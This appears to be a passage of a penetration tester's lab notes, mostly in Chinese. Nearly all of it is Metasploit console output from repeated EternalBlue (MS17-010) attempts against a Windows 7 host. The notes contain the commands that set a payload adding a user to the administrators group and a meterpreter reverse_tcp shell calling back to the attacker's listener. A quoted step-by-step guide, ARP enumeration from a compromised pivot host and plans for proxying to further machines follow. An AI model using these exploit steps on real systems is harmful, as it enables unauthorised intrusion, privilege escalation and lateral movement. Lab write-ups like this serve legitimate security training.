[*] 192.168.23.12:445 - 0x00000010  72 69 73 65 20 37 36 30 30                       rise 7600       
[+] 192.168.23.12:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.23.12:445 - Trying exploit with 17 Groom Allocations.
[*] 192.168.23.12:445 - Sending all but last fragment of exploit packet
[*] 192.168.23.12:445 - Starting non-paged pool grooming
[+] 192.168.23.12:445 - Sending SMBv2 buffers
[+] 192.168.23.12:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.23.12:445 - Sending final SMBv2 buffers.
[*] 192.168.23.12:445 - Sending last fragment of exploit packet!
[*] 192.168.23.12:445 - Receiving response from exploit packet
[+] 192.168.23.12:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.23.12:445 - Sending egg to corrupted connection.
[*] 192.168.23.12:445 - Triggering free of corrupted buffer.
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 192.168.23.12:445 - Connecting to target for exploitation.
[+] 192.168.23.12:445 - Connection established for exploitation.
[+] 192.168.23.12:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.23.12:445 - CORE raw buffer dump (25 bytes)
[*] 192.168.23.12:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 45 6e 74 65 72 70  Windows 7 Enterp
[*] 192.168.23.12:445 - 0x00000010  72 69 73 65 20 37 36 30 30                       rise 7600       
[+] 192.168.23.12:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.23.12:445 - Trying exploit with 22 Groom Allocations.
[*] 192.168.23.12:445 - Sending all but last fragment of exploit packet
[*] 192.168.23.12:445 - Starting non-paged pool grooming
[+] 192.168.23.12:445 - Sending SMBv2 buffers
[+] 192.168.23.12:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.23.12:445 - Sending final SMBv2 buffers.
[*] 192.168.23.12:445 - Sending last fragment of exploit packet!
[*] 192.168.23.12:445 - Receiving response from exploit packet
[+] 192.168.23.12:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.23.12:445 - Sending egg to corrupted connection.
[*] 192.168.23.12:445 - Triggering free of corrupted buffer.
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Exploit completed, but no session was created.

####  添加为管理员
.
msf6 exploit(windows/smb/ms17_010_eternalblue) > use 2
[*] Using configured payload windows/x64/exec         【】
msf6 exploit(windows/smb/ms17_010_eternalblue) > set cmd net localgroup "administrators" NewAdmin /add
cmd => net localgroup administrators NewAdmin /add
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] 192.168.23.12:445 - Executing automatic check (disable AutoCheck to override)
[*] 192.168.23.12:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.23.12:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Enterprise 7600 x64 (64-bit)
[*] 192.168.23.12:445     - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.23.12:445 - The target is vulnerable.
[*] 192.168.23.12:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.23.12:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Enterprise 7600 x64 (64-bit)
[*] 192.168.23.12:445     - Scanned 1 of 1 hosts (100% complete)
[*] 192.168.23.12:445 - Connecting to target for exploitation.
[+] 192.168.23.12:445 - Connection established for exploitation.
[+] 192.168.23.12:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.23.12:445 - CORE raw buffer dump (25 bytes)
[*] 192.168.23.12:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 45 6e 74 65 72 70  Windows 7 Enterp
[*] 192.168.23.12:445 - 0x00000010  72 69 73 65 20 37 36 30 30                       rise 7600       
[+] 192.168.23.12:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.23.12:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.23.12:445 - Sending all but last fragment of exploit packet
[*] 192.168.23.12:445 - Starting non-paged pool grooming
[+] 192.168.23.12:445 - Sending SMBv2 buffers
[+] 192.168.23.12:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.23.12:445 - Sending final SMBv2 buffers.
[*] 192.168.23.12:445 - Sending last fragment of exploit packet!
[*] 192.168.23.12:445 - Receiving response from exploit packet
[+] 192.168.23.12:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.23.12:445 - Sending egg to corrupted connection.
[*] 192.168.23.12:445 - Triggering free of corrupted buffer.
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 192.168.23.12:445 - Connecting to target for exploitation.
[+] 192.168.23.12:445 - Connection established for exploitation.
[+] 192.168.23.12:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.23.12:445 - CORE raw buffer dump (25 bytes)
[*] 192.168.23.12:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 45 6e 74 65 72 70  Windows 7 Enterp
[*] 192.168.23.12:445 - 0x00000010  72 69 73 65 20 37 36 30 30                       rise 7600       
[+] 192.168.23.12:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.23.12:445 - Trying exploit with 17 Groom Allocations.
[*] 192.168.23.12:445 - Sending all but last fragment of exploit packet
[*] 192.168.23.12:445 - Starting non-paged pool grooming
[+] 192.168.23.12:445 - Sending SMBv2 buffers
[+] 192.168.23.12:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.23.12:445 - Sending final SMBv2 buffers.
[*] 192.168.23.12:445 - Sending last fragment of exploit packet!
[*] 192.168.23.12:445 - Receiving response from exploit packet
[+] 192.168.23.12:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.23.12:445 - Sending egg to corrupted connection.
[*] 192.168.23.12:445 - Triggering free of corrupted buffer.
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 192.168.23.12:445 - Connecting to target for exploitation.
[+] 192.168.23.12:445 - Connection established for exploitation.
[+] 192.168.23.12:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.23.12:445 - CORE raw buffer dump (25 bytes)
[*] 192.168.23.12:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 45 6e 74 65 72 70  Windows 7 Enterp
[*] 192.168.23.12:445 - 0x00000010  72 69 73 65 20 37 36 30 30                       rise 7600       
[+] 192.168.23.12:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.23.12:445 - Trying exploit with 22 Groom Allocations.
[*] 192.168.23.12:445 - Sending all but last fragment of exploit packet
[*] 192.168.23.12:445 - Starting non-paged pool grooming
[+] 192.168.23.12:445 - Sending SMBv2 buffers
[+] 192.168.23.12:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.23.12:445 - Sending final SMBv2 buffers.
[*] 192.168.23.12:445 - Sending last fragment of exploit packet!
[*] 192.168.23.12:445 - Receiving response from exploit packet
[+] 192.168.23.12:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.23.12:445 - Sending egg to corrupted connection.
[*] 192.168.23.12:445 - Triggering free of corrupted buffer.
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Exploit completed, but no session was created.
msf6 exploit(windows/smb/ms17_010_eternalblue) > 

####  如果执行成功，会进入windows系统的命令行

sf6 exploit(windows/smb/ms17_010_eternalblue) > use 2
[*] Using configured payload windows/x64/exec
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         192.168.23.12    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.

Payload options (windows/x64/exec):

   Name      Current Setting                              Required  Description
   ----      ---------------                              --------  -----------
   CMD       net localgroup administrators NewAdmin /add  yes       The command string to execute
   EXITFUNC  thread                                       yes       Exit technique (Accepted: '', seh, thread, process, none)

Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs

msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 192.168.23.12
rhosts => 192.168.23.12
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         192.168.23.12    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.233.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs

msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[-] 192.168.23.12:445 - Exploit failed: One or more options failed to validate: ReverseAllowProxy.
[*] Exploit completed, but no session was created.

-----------

msf6 exploit(windows/smb/ms17_010_eternalblue) > set ReverseAllowProxy True
ReverseAllowProxy => True
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 192.168.233.128:4444 
[*] 192.168.23.12:445 - Executing automatic check (disable AutoCheck to override)
[*] 192.168.23.12:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.23.12:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Enterprise 7600 x64 (64-bit)
[*] 192.168.23.12:445     - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.23.12:445 - The target is vulnerable.
[*] 192.168.23.12:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.23.12:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Enterprise 7600 x64 (64-bit)
[*] 192.168.23.12:445     - Scanned 1 of 1 hosts (100% complete)
[*] 192.168.23.12:445 - Connecting to target for exploitation.
[+] 192.168.23.12:445 - Connection established for exploitation.
[+] 192.168.23.12:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.23.12:445 - CORE raw buffer dump (25 bytes)
[*] 192.168.23.12:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 45 6e 74 65 72 70  Windows 7 Enterp
[*] 192.168.23.12:445 - 0x00000010  72 69 73 65 20 37 36 30 30                       rise 7600       
[+] 192.168.23.12:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.23.12:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.23.12:445 - Sending all but last fragment of exploit packet
[*] 192.168.23.12:445 - Starting non-paged pool grooming
[+] 192.168.23.12:445 - Sending SMBv2 buffers
[+] 192.168.23.12:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.23.12:445 - Sending final SMBv2 buffers.
[*] 192.168.23.12:445 - Sending last fragment of exploit packet!
[*] 192.168.23.12:445 - Receiving response from exploit packet
[+] 192.168.23.12:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.23.12:445 - Sending egg to corrupted connection.
[*] 192.168.23.12:445 - Triggering free of corrupted buffer.
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 192.168.23.12:445 - Connecting to target for exploitation.
[+] 192.168.23.12:445 - Connection established for exploitation.
[+] 192.168.23.12:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.23.12:445 - CORE raw buffer dump (25 bytes)
[*] 192.168.23.12:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 45 6e 74 65 72 70  Windows 7 Enterp
[*] 192.168.23.12:445 - 0x00000010  72 69 73 65 20 37 36 30 30                       rise 7600       
[+] 192.168.23.12:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.23.12:445 - Trying exploit with 17 Groom Allocations.
[*] 192.168.23.12:445 - Sending all but last fragment of exploit packet
[*] 192.168.23.12:445 - Starting non-paged pool grooming
[+] 192.168.23.12:445 - Sending SMBv2 buffers
[+] 192.168.23.12:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.23.12:445 - Sending final SMBv2 buffers.
[*] 192.168.23.12:445 - Sending last fragment of exploit packet!
[*] 192.168.23.12:445 - Receiving response from exploit packet
[+] 192.168.23.12:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.23.12:445 - Sending egg to corrupted connection.
[*] 192.168.23.12:445 - Triggering free of corrupted buffer.
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 192.168.23.12:445 - Connecting to target for exploitation.
[+] 192.168.23.12:445 - Connection established for exploitation.
[+] 192.168.23.12:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.23.12:445 - CORE raw buffer dump (25 bytes)
[*] 192.168.23.12:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 45 6e 74 65 72 70  Windows 7 Enterp
[*] 192.168.23.12:445 - 0x00000010  72 69 73 65 20 37 36 30 30                       rise 7600       
[+] 192.168.23.12:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.23.12:445 - Trying exploit with 22 Groom Allocations.
[*] 192.168.23.12:445 - Sending all but last fragment of exploit packet
[*] 192.168.23.12:445 - Starting non-paged pool grooming
[+] 192.168.23.12:445 - Sending SMBv2 buffers
[+] 192.168.23.12:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.23.12:445 - Sending final SMBv2 buffers.
[*] 192.168.23.12:445 - Sending last fragment of exploit packet!
[*] 192.168.23.12:445 - Receiving response from exploit packet
[+] 192.168.23.12:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.23.12:445 - Sending egg to corrupted connection.
[*] 192.168.23.12:445 - Triggering free of corrupted buffer.
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Exploit completed, but no session was created.

------------------------------

show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         192.168.23.12    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.233.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs

msf6 exploit(windows/smb/ms17_010_eternalblue) > set  SMBDomain   admin-PC
SMBDomain => admin-PC

========================== 正确的配置！【】lhost

msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost 10.2.0.213
lhost => 10.2.0.213

~~~~~~~~~~~~~~~~~~~

输入：set  RHOSTS  192.168.125.125-129.168.125.140

选择漏洞攻击模块： use exploit/windows/smb/ms17_010_eternalblue   
查看这个漏洞的信息：info
show targets
show  payloads
set payload windows/x64/meterpreter/reverse_tcp

要攻击主机的ip：set   RHOST  192.168.125.138
LHOST，也就是我们主机的ip，用于接收从目标机弹回来的shell：set  LHOST 192.168.125.129
不设置lport的话，默认是4444端口监听

来自 <https://www.cnblogs.com/csnd/p/11807588.html> 

~~~~~~~~~~~~~~~~~~~

msf6 exploit(windows/smb/ms17_010_eternalblue) > show options
                                                                                                                  
Module options (exploit/windows/smb/ms17_010_eternalblue):                                                        
                                                                                                                  
   Name           Current Setting  Required  Description                                                          
   ----           ---------------  --------  -----------                                                          
   RHOSTS         192.168.23.12    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      admin-PC         no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.2.0.213       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs

=========================== 依然失败，但过程不大一样---只有一个 fail

msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.2.0.213:4444 
[*] 192.168.23.12:445 - Executing automatic check (disable AutoCheck to override)
[*] 192.168.23.12:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.23.12:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Enterprise 7600 x64 (64-bit)
[*] 192.168.23.12:445     - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.23.12:445 - The target is vulnerable.
[*] 192.168.23.12:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.23.12:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Enterprise 7600 x64 (64-bit)
[*] 192.168.23.12:445     - Scanned 1 of 1 hosts (100% complete)
[*] 192.168.23.12:445 - Connecting to target for exploitation.
[+] 192.168.23.12:445 - Connection established for exploitation.
[+] 192.168.23.12:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.23.12:445 - CORE raw buffer dump (25 bytes)
[*] 192.168.23.12:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 45 6e 74 65 72 70  Windows 7 Enterp
[*] 192.168.23.12:445 - 0x00000010  72 69 73 65 20 37 36 30 30                       rise 7600       
[+] 192.168.23.12:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.23.12:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.23.12:445 - Sending all but last fragment of exploit packet
[*] 192.168.23.12:445 - Starting non-paged pool grooming
[+] 192.168.23.12:445 - Sending SMBv2 buffers
[+] 192.168.23.12:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.23.12:445 - Sending final SMBv2 buffers.
[*] 192.168.23.12:445 - Sending last fragment of exploit packet!
[*] 192.168.23.12:445 - Receiving response from exploit packet
[+] 192.168.23.12:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.23.12:445 - Sending egg to corrupted connection.
[*] 192.168.23.12:445 - Triggering free of corrupted buffer.
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 192.168.23.12:445 - Connecting to target for exploitation.
[+] 192.168.23.12:445 - Connection established for exploitation.
[+] 192.168.23.12:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.23.12:445 - CORE raw buffer dump (25 bytes)
[*] 192.168.23.12:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 45 6e 74 65 72 70  Windows 7 Enterp
[*] 192.168.23.12:445 - 0x00000010  72 69 73 65 20 37 36 30 30                       rise 7600       
[+] 192.168.23.12:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.23.12:445 - Trying exploit with 17 Groom Allocations.
[*] 192.168.23.12:445 - Sending all but last fragment of exploit packet
[*] 192.168.23.12:445 - Starting non-paged pool grooming
[+] 192.168.23.12:445 - Sending SMBv2 buffers
[+] 192.168.23.12:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.23.12:445 - Sending final SMBv2 buffers.
[*] 192.168.23.12:445 - Sending last fragment of exploit packet!
[*] 192.168.23.12:445 - Receiving response from exploit packet
[-] 192.168.23.12:445 - EOFError
[-] 192.168.23.12:445 - EOFError
[-] 192.168.23.12:445 - /usr/share/metasploit-framework/vendor/bundle/ruby/2.7.0/gems/rex-core-0.1.15/lib/rex/io/stream.rb:224:in `get_once'
/usr/share/metasploit-framework/modules/exploits/windows/smb/ms17_010_eternalblue.rb:413:in `block in smb1_get_response'
/usr/share/metasploit-framework/modules/exploits/windows/smb/ms17_010_eternalblue.rb:412:in `times'
/usr/share/metasploit-framework/modules/exploits/windows/smb/ms17_010_eternalblue.rb:412:in `smb1_get_response'
/usr/share/metasploit-framework/modules/exploits/windows/smb/ms17_010_eternalblue.rb:251:in `smb_eternalblue'
/usr/share/metasploit-framework/modules/exploits/windows/smb/ms17_010_eternalblue.rb:138:in `block in exploit'
/usr/share/metasploit-framework/vendor/bundle/ruby/2.7.0/gems/activesupport-5.2.4.5/lib/active_support/core_ext/range/each.rb:9:in `each'
/usr/share/metasploit-framework/vendor/bundle/ruby/2.7.0/gems/activesupport-5.2.4.5/lib/active_support/core_ext/range/each.rb:9:in `each'
/usr/share/metasploit-framework/modules/exploits/windows/smb/ms17_010_eternalblue.rb:136:in `exploit'
/usr/share/metasploit-framework/lib/msf/core/exploit/remote/auto_check.rb:27:in `block in exploit'
/usr/share/metasploit-framework/lib/msf/core/exploit/remote/auto_check.rb:47:in `with_prepended_auto_check'
/usr/share/metasploit-framework/lib/msf/core/exploit/remote/auto_check.rb:26:in `exploit'
/usr/share/metasploit-framework/lib/msf/core/exploit_driver.rb:214:in `job_run_proc'
/usr/share/metasploit-framework/lib/msf/core/exploit_driver.rb:168:in `run'
/usr/share/metasploit-framework/lib/msf/base/simple/exploit.rb:144:in `exploit_simple'
/usr/share/metasploit-framework/lib/msf/base/simple/exploit.rb:168:in `exploit_simple'
/usr/share/metasploit-framework/lib/msf/ui/console/command_dispatcher/exploit.rb:56:in `exploit_single'
/usr/share/metasploit-framework/lib/msf/ui/console/command_dispatcher/exploit.rb:213:in `cmd_exploit'
/usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:525:in `run_command'
/usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:476:in `block in run_single'
/usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:470:in `each'
/usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:470:in `run_single'
/usr/share/metasploit-framework/lib/rex/ui/text/shell.rb:158:in `run'
/usr/share/metasploit-framework/lib/metasploit/framework/command/console.rb:48:in `start'
/usr/share/metasploit-framework/lib/metasploit/framework/command/base.rb:82:in `start'
/usr/bin/msfconsole:23:in `<main>'
[*] Exploit completed, but no session was created.

===================== 
### 据说，网络中还有一台231：

#### ew 建代理，也可以看到231 --- ???【】


#### 10.2.2.21中用arp查看，果然：

C:\Users\Administrator>arp -a

接口: 10.2.2.21 --- 0xd
  Internet 地址         物理地址              类型
  10.2.2.1              02-00-0a-02-02-01     动态
  10.2.2.31             02-00-0a-02-02-1f     动态
  10.2.2.39             02-00-0a-02-02-27     动态
  10.2.3.255            ff-ff-ff-ff-ff-ff     静态
  224.0.0.22            01-00-5e-00-00-16     静态
  224.0.0.252           01-00-5e-00-00-fc     静态

接口: 192.168.23.135 --- 0xe
  Internet 地址         物理地址              类型
  192.168.23.1          02-00-c0-a8-17-01     动态
  192.168.23.12         02-00-c0-a8-17-0c     动态
  192.168.23.66         02-00-c0-a8-17-42     动态
  192.168.23.88         02-00-c0-a8-17-58     动态
  192.168.23.231        02-00-c0-a8-17-e7     动态
  192.168.23.255        ff-ff-ff-ff-ff-ff     静态
  224.0.0.22            01-00-5e-00-00-16     静态
  224.0.0.252           01-00-5e-00-00-fc     静态

Microsoft Windows [版本 6.1.7600]
版权所有 (c) 2009 Microsoft Corporation。保留所有权利。

C:\Users\Administrator>arp

显示和修改地址解析协议(ARP)使用的“IP 到物理”地址转换表。

ARP -s inet_addr eth_addr [if_addr]
ARP -d inet_addr [if_addr]
ARP -a [inet_addr] [-N if_addr] [-v]

  -a            通过询问当前协议数据，显示当前 ARP 项。
                如果指定 inet_addr，则只显示指定计算机
                的 IP 地址和物理地址。如果不止一个网络
                接口使用 ARP，则显示每个 ARP 表的项。
  -g            与 -a 相同。
  -v            在详细模式下显示当前 ARP 项。所有无效项
                和环回接口上的项都将显示。
  inet_addr     指定 Internet 地址。
  -N if_addr    显示 if_addr 指定的网络接口的 ARP 项。
  -d            删除 inet_addr 指定的主机。inet_addr 可
                以是通配符 *，以删除所有主机。
  -s            添加主机并且将 Internet 地址 inet_addr
                与物理地址 eth_addr 相关联。物理地址是用
                连字符分隔的 6 个十六进制字节。该项是永久的。
  eth_addr      指定物理地址。
  if_addr       如果存在，此项指定地址转换表应修改的接口
                的 Internet 地址。如果不存在，则使用第一
                个适用的接口。
示例:
  > arp -s 157.55.85.212   00-aa-00-62-c6-09.... 添加静态项。
  > arp -a                                  .... 显示 ARP 表。

C:\Users\Administrator>arp -a

接口: 10.2.2.21 --- 0xd
  Internet 地址         物理地址              类型
  10.2.2.1              02-00-0a-02-02-01     动态
  10.2.2.31             02-00-0a-02-02-1f     动态
